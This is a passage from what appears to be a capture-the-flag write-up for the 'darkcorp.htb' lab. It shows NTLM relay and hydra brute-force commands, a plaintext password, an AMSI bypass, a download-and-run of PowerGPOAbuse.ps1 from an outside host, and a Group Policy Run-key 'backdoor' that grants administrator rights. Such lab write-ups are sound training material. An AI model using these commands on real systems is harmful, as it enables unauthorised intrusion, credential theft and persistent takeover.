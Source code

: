 ![](images/Pasted%20image%2020250718023355.png)
The next conventional approach is to first obtain the website `172.16.20.2`'s only privilege, and then use `ntlmrelayx` attack to obtain the system privileges of the machine.
```
sudo impacket-ntlmrelayx -t ldaps://172.16.20.1 -debug -i -smb2support -domain
darkcorp.htb
```
But I don't know why I can't run it successfully.

Another non-optimal way is to brute force the password of `taylor.b.adm: !QAZzaq1`.
```
hydra -l taylor.b.adm -P /usr/share/wordlists/rockyou.txt -o test.log  -vV ldap3://172.16.20.1
```

Then we can get the shell as `taylor`
# Elevate Privileges
Then use the `PowerGPOAbuse.ps1` script to elevate privileges
```
*Evil-WinRM* PS C:\Users\taylor.b.adm\Documents> $a = [Ref].Assembly.GetTypes() | ?{$_.Name -like '*siUtils'};$b = $a.GetFields('NonPublic,Static') | ?{$_.Name -like '*siContext'};[IntPtr]$c =$b.GetValue($null);[Int32[]]$d = @(0xff);[System.Runtime.InteropServices.Marshal]::Copy($d, 0, $c, 1)

*Evil-WinRM* PS C:\Users\taylor.b.adm\Documents> iex(New-Object Net.WebClient).DownloadString('http://10.10.14.17/PowerGPOAbuse.ps1')

*Evil-WinRM* PS C:\Users\taylor.b.adm\Documents> Add-GPOGroupMember -Member 'taylor.b.adm' -GPOIdentity 'SecurityUpdates'
True

*Evil-WinRM* PS C:\Users\taylor.b.adm\Documents> Set-GPRegistryValue -Name "SecurityUpdates" -key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "backdoor" -Type String -Value "powershell -ExecutionPolicy Bypass -NoProfile -Command `"Add-LocalGroupMember -Group 'Administrators' -Member taylor.b.adm`""

```